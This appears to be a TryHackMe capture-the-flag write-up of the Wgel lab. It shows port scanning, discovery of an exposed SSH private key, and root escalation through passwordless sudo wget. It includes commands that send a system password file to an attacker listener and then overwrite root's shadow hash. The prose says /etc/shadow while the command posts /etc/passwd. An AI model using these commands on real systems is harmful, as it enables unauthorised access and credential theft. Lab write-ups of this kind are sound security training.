 --------------------

### CTF: TRYHACKME
### LAB: WGELCTF

---------------------

![image](https://github.com/user-attachments/assets/ce453493-74f0-490b-a5e1-ae61a8559e20)

---------------------

### RECONAISSANCE

- Rustscan's output

      ❯ rustscan -a 10.10.186.77 -- -sC -sV
      .----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
      | {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
      | .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
      `-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
      The Modern Day Port Scanner.
      ________________________________________
      : https://discord.gg/GFrQsGy           :
      : https://github.com/RustScan/RustScan :
       --------------------------------------
      Nmap? More like slowmap.🐢
      
      [~] The config file is expected to be at "/home/sensei/.rustscan.toml"
      [!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
      [!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
      Open 10.10.186.77:22
      Open 10.10.186.77:80
      [~] Starting Script(s)
      [>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")
      
      [~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-24 15:37 EDT
      NSE: Loaded 156 scripts for scanning.
      NSE: Script Pre-scanning.
      NSE: Starting runlevel 1 (of 3) scan.
      Initiating NSE at 15:37
      Completed NSE at 15:37, 0.00s elapsed
      NSE: Starting runlevel 2 (of 3) scan.
      Initiating NSE at 15:37
      Completed NSE at 15:37, 0.00s elapsed
      NSE: Starting runlevel 3 (of 3) scan.
      Initiating NSE at 15:37
      Completed NSE at 15:37, 0.00s elapsed
      Initiating Ping Scan at 15:37
      Scanning 10.10.186.77 [2 ports]
      Completed Ping Scan at 15:37, 0.16s elapsed (1 total hosts)
      Initiating Parallel DNS resolution of 1 host. at 15:37
      Completed Parallel DNS resolution of 1 host. at 15:37, 0.03s elapsed
      DNS resolution of 1 IPs took 0.03s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
      Initiating Connect Scan at 15:37
      Scanning 10.10.186.77 [2 ports]
      Discovered open port 80/tcp on 10.10.186.77
      Discovered open port 22/tcp on 10.10.186.77
      Completed Connect Scan at 15:37, 0.52s elapsed (2 total ports)
      Initiating Service scan at 15:37
      Scanning 2 services on 10.10.186.77
      Completed Service scan at 15:37, 13.25s elapsed (2 services on 1 host)
      NSE: Script scanning 10.10.186.77.
      NSE: Starting runlevel 1 (of 3) scan.
      Initiating NSE at 15:37
      Completed NSE at 15:38, 8.56s elapsed
      NSE: Starting runlevel 2 (of 3) scan.
      Initiating NSE at 15:38
      Completed NSE at 15:38, 0.78s elapsed
      NSE: Starting runlevel 3 (of 3) scan.
      Initiating NSE at 15:38
      Completed NSE at 15:38, 0.01s elapsed
      Nmap scan report for 10.10.186.77
      Host is up, received syn-ack (0.25s latency).
      Scanned at 2024-08-24 15:37:38 EDT for 24s
      
      PORT   STATE SERVICE REASON  VERSION
      22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
      | ssh-hostkey: 
      |   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
      | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCpgV7/18RfM9BJUBOcZI/eIARrxAgEeD062pw9L24Ulo5LbBeuFIv7hfRWE/kWUWdqHf082nfWKImTAHVMCeJudQbKtL1SBJYwdNo6QCQyHkHXslVb9CV1Ck3wgcje8zLbrml7OYpwBlumLVo2StfonQUKjfsKHhR+idd3/P5V3abActQLU8zB0a4m3TbsrZ9Hhs/QIjgsEdPsQEjCzvPHhTQCEywIpd/GGDXqfNPB0Yl/dQghTALyvf71EtmaX/fsPYTiCGDQAOYy3RvOitHQCf4XVvqEsgzLnUbqISGugF8ajO5iiY2GiZUUWVn4MVV1jVhfQ0kC3ybNrQvaVcXd
      |   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
      | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDCxodQaK+2npyk3RZ1Z6S88i6lZp2kVWS6/f955mcgkYRrV1IMAVQ+jRd5sOKvoK8rflUPajKc9vY5Yhk2mPj8=
      |   256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
      |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJhXt+ZEjzJRbb2rVnXOzdp5kDKb11LfddnkcyURkYke
      80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
      | http-methods: 
      |_  Supported Methods: POST OPTIONS GET HEAD
      |_http-server-header: Apache/2.4.18 (Ubuntu)
      |_http-title: Apache2 Ubuntu Default Page: It works
      Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

- I did directory fuzzing with FFUF and I discovered a directory `sitemap`.

![image](https://github.com/user-attachments/assets/478f763b-7fe8-4e1b-909e-b659d51e684a)

- I discovered a `.ssh` directory after fuzzing for files and directory with `raft_large_files` wordlist.

![image](https://github.com/user-attachments/assets/85fc1729-9460-4b5f-becc-692f32c7b17f)

- I found a username in the Apache server's default page source code.

![image](https://github.com/user-attachments/assets/84f1bc23-bad7-42ab-800f-e49f1a28f0cb)

- The `.ssh` directory contains an `id_rsa` file and I was able to access user `Jessie` with it via ssh.

![image](https://github.com/user-attachments/assets/9c4acbd6-0ad0-469b-97db-0ad9bf80e410)

- SSH Access

![image](https://github.com/user-attachments/assets/1c55d0cd-22f9-463f-86a3-8ec0fd888a1b)

-----------------------------

### PRIVESC with WGET

- Running `sudo -l` indicates a rule that user `Jessie` can run `/usr/bin/wget` binary without password as root.

![image](https://github.com/user-attachments/assets/dff419c9-b90a-492a-8f11-de17803b48b7)

### Sending /etc/shadow to our machine to edit the root hash

- I set up a listener on my machine to receive the file contents

![image](https://github.com/user-attachments/assets/5eb36459-08b2-4af4-a599-d653073a155b)

- I used this command to send the `/etc/shadow` file.

   Command:```sudo -u root /usr/bin/wget --post-file=/etc/passwd <ip>:<port>```

- File contents received over `nc`

![image](https://github.com/user-attachments/assets/5ef0a780-8326-478a-a580-580c402fca63)

- Generate a new hash with openssl

      #SHA512 hash
      openssl passwd -6 <password>

![image](https://github.com/user-attachments/assets/a857e147-61b4-422c-93ae-585fd06703e9)

- Hash format should be according to the format set below.Replace the root user's hash

      root:<hash>:18195:0:99999:7:::

- Set up a python `http.server` module.

![image](https://github.com/user-attachments/assets/12025c43-15f4-43d8-bb25-fed3c55e3ebb)

- Receive on the victim's machine with wget

      sudo -u root /usr/bin/wget http://<ip>:<port>/shadow -O <save location>

![image](https://github.com/user-attachments/assets/2fa53e7f-570c-4742-8555-8ffc87e96bbf)

- Su to root and input the new password

![image](https://github.com/user-attachments/assets/6016028c-b85c-49af-8986-e3c643a178a2)

- Root......

![image](https://github.com/user-attachments/assets/36b4d07f-79e6-433f-9f88-43163c43764d)


----------------------

### REFERENCE:

- [Wget's Privesc](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-wget-privilege-escalation/)

----------------------
